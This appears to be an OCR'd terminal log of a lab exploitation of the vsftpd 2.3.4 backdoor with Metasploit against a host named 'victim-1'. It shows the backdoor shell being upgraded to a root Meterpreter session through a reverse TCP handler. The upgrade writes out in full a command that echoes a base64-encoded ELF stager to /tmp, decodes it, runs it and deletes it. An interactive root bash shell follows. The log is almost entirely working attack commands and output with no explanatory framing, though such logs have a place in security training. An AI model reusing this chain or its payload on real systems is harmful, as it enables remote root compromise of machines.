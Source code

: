 ```
root@victim-1:~/vsftpd-2.3.4# ^Z
Background session 1? [y/N]  y
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.234.154.2:46163 -> 192.234.154.3:6200 (192.234.154.3)

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.234.154.2:4433 
[*] Sending stage (985320 bytes) to 192.234.154.3
[*] Meterpreter session 2 opened (192.234.154.2:4433 -> 192.234.154.3:36736) at 2023-06-10 02:53:00 +0000
[-] Error: Unable to execute the following command: "echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towOqaAmgCABFRieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZtgywA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/lFAzq.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/bSwwZ' < '/tmp/lFAzq.b64' ; chmod +x '/tmp/bSwwZ' ; '/tmp/bSwwZ' & sleep 2 ; rm -f '/tmp/bSwwZ' ; rm -f '/tmp/lFAzq.b64'"
[-] Output: "[1] 22"
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                   Connection
  --  ----  ----                   -----------                                   ----------
  1         shell cmd/unix                                                       192.234.154.2:46163 -> 192.234.154.3:6200 (192.234.154.3)
  2         meterpreter x86/linux  uid=0, gid=0, euid=0, egid=0 @ 192.234.154.3  192.234.154.2:4433 -> 192.234.154.3:36736 (192.234.154.3)

msf5 exploit(unix/ftp/vsftpd_234_backdoor) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```

```
meterpreter > sysinfo
Computer     : 192.234.154.3
OS           : Debian 9.5 (Linux 5.4.0-125-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > shell
Process 26 created.
Channel 1 created.
/bin/bash -i
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:~/vsftpd-2.3.4# 
```